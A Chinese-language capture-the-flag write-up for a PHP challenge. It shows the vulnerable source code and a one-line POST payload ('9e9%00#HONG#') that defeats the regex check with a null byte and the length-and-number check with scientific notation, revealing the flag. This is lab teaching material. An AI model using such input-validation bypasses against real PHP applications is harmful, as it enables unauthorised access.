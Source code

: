 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要的逻辑代码：

```php
<?php  
if (isset($_POST["submit"]))  
{
  if (isset($_POST['hihi']))
  {
    if (ereg("^[a-zA-Z0-9]+$", $_POST['hihi']) === FALSE)
    {
      exit('<script>alert("have fun:)")</script>');
    }
    elseif (strlen($_POST['hihi']) < 11 && $_POST['hihi'] > 999999999)
    {
      if (strpos($_POST['hihi'], '#HONG#') !== FALSE)
      {
        if (!is_array($_POST['hihi'])) {
        include("flag.php");
        echo "Congratulations! FLAG is : ".$flag;
        }
        else
      {
        exit('<script>alert("nonono")</script>');
      }
      }
      else
      {
        exit('<script>alert("nonono")</script>');
      }
    }
    else
    {
      exit('<script>alert("sorry")</script>');
    }
  }
}
show_source(__FILE__);
?>
```

3.根据正则表达式，构造绕过拿到flag:

payload:

`POST :  submit=1221&hihi=9e9%00#HONG#`

![](files_for_writeup/2.png)


4.获取flag：

![](files_for_writeup/3.png)

